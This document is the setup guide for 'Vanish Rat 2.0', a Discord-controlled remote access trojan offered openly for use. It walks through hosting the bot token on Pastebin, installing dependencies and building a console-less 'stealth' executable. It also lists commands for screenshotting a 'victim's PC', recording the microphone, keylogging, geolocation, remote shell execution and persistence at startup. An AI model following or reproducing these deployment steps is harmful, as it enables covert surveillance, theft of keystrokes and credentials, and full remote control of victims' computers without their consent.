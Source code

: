 
             Vanish Rat 2.0 - Setup Guide
--------------------------------------------------------
Author  : @kqco | Packaged By: #kqco
License : MIT
--------------------------------------------------------

 WHAT YOU NEED
----------------
1. Python 3.11+ Installed
2. A Discord Bot Token (https://discord.com/developers/applications)
3. A Discord Webhook URL (Discord Channel > Integrations > Webhooks)
4. Pastebin or Gist account for hosting config


 SETUP INSTRUCTIONS
---------------------
1. Create a Pastebin/Gist with:
   Line 1: Your Discord Bot Token
   Line 2: Your Discord Webhook URL

2. Make sure it's RAW viewable (Unlisted or Public)

3. Copy the RAW link and paste it into Rat.py:
   Example:
   config_url = "https://pastebin.com/raw/YourPasteID"

4. Install the required packages:
   pip install -r requirements.txt
   OR manually install:
   pip install discord requests pypiwin32 pycaw comtypes opencv-python numpy sounddevice scipy pyautogui pynput cryptography pycryptodome pillow aiofiles pyttsx3

5. Run the bot:
   python Rat.pyw


 OPTIONAL: BUILDING STEALTH EXE
---------------------------------
For No Console Window:
- Nuitka: pip install nuitka
  nuitka --onefile --windows-disable-console Rat.py

- OR PyInstaller: pip install pyinstaller
  pyinstaller --onefile --noconsole Rat.py


DISCORD COMMAND PANEL
---------------------------
Once bot is running, type:
   .help
To view available commands.

Example Commands:
 - .ss        - Screenshot victim's PC
 - .mic       - Record 15 seconds of mic audio
 - .key start - Start keylogger
 - .geo       - Get public IP and location
 - .shell     - Run CMD commands on target machine
 - .stup      - Add bot to startup
 - .exit      - Disconnect bot


 TROUBLESHOOTING
-------------------
- Check bot token and webhook are valid and accessible
- Ensure all packages are installed
- Make sure you used a RAW Pastebin/Gist link
- Run via python, not by double-clicking


ENJOY USING VANISH RAT 2.0 

--------------------------------------------------------

